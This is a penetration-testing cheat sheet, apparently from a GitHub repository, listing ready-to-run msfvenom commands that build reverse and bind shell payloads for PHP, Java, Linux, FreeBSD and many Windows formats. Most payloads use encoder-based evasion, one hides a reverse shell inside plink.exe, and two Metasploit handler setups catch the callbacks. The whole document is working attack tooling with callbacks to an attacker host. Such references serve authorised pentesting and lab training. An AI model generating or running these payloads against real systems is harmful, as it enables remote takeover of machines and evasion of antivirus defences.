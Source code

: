 # MSFVenom Payloads 

<h1 align="center">
  <a href="https://github.com/kraloveckey/venom/penetration-testing"><img src="../images/img/hack-logo.png" width=150 height=140 lt="Cyber Cheat Sheet"></a>
</h1>

---

```shell
$ msfconsole -q
```

### PHP reverse shell  
```msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php```

### Java WAR reverse shell  
```msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war -o shell.war```

### Linux bind shell  
```msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai```

### Linux reverse shell
```msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o pay```

``` msfconsole -q
>> use payload/linux/x86/shell_reverse_tcp
>> set LHOST 10.10.10.10
>> exploit
```

### Linux FreeBSD reverse shell  
```msfvenom -p bsd/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f elf -o shell.elf```

### Linux C reverse shell  
```msfvenom  -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f c```

### Windows non staged reverse shell  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o non_staged.exe```

### Windows Staged (Meterpreter) reverse shell  
```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o meterpreter.exe```

### Windows Python reverse shell  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f python -o shell.py```

### Windows ASP reverse shell  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f asp -e x86/shikata_ga_nai -o shell.asp```

### Windows ASPX reverse shell
```msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx```

### Windows JavaScript reverse shell with nops  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f js_le -e generic/none -n 18```

### Windows Powershell reverse shell  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1```

### Windows reverse shell excluding bad characters  
```msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f c -b "\x00\x04" -e x86/shikata_ga_nai```

### Windows x64 bit reverse shell  
```msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o shell.exe```

or

```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4443 -f exe -o shell.exe```

``` 
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost tun0
set lport 4443
run
```

### Windows reverse shell embedded into plink  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe```

---

<a href="https://www.paypal.com/donate/?hosted_button_id=GWWLEXEF3XL92">
  <img src="https://raw.githubusercontent.com/kraloveckey/kraloveckey/refs/heads/main/.assets/paypal-donate-button.png" alt="Donate with PayPal" width="225" height="100"/>
</a>
